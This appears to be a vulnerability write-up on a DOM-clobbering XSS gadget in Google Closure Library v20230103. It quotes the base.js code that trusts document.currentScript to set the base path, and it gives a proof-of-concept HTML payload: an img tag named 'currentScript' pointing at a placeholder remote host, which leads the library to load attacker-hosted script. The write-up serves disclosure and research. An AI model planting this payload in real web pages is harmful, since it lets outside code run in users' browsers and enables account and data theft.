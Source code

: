 ## Google Closure Library

### Meta

+ Library: Google Closure Library
+ Version: v20230103
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>```
+ Impact: XSS
+ Foundby: TheHulk


### Library

URL: 
+ `https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.min.js`


### Vulnerable Code Snippet

```javascript
// If we have a currentScript available, use it exclusively.
var currentScript = doc.currentScript;
if (currentScript) {
  var scripts = [currentScript];
} else {
  var scripts = doc.getElementsByTagName('SCRIPT');
}
// Search backwards since the current script is in almost all cases the one
// that has base.js.
for (var i = scripts.length - 1; i >= 0; --i) {
  var script = /** @type {!HTMLScriptElement} */ (scripts[i]);
  var src = script.src;
  var qmark = src.lastIndexOf('?');
  var l = qmark == -1 ? src.length : qmark;
  if (src.slice(l - 7, l) == 'base.js') {
    goog.basePath = src.slice(0, l - 7);
    return;
  }
}
```
```javascript
goog.DebugLoader_.prototype.loadClosureDeps = function() {
// Circumvent addDependency, which would try to transpile deps.js if
// transpile is set to always.
var relPath = 'deps.js';
this.depsToLoad_.push(this.factory_.createDependency(
    goog.normalizePath_(goog.basePath + relPath), relPath, [], [], {}));
this.loadDeps_();
};
```

which eventually gets loaded...

## PoC

The library canot be compiled for this to work.

### PoC #1
```html
<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>

<script src=https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.js></script>
```
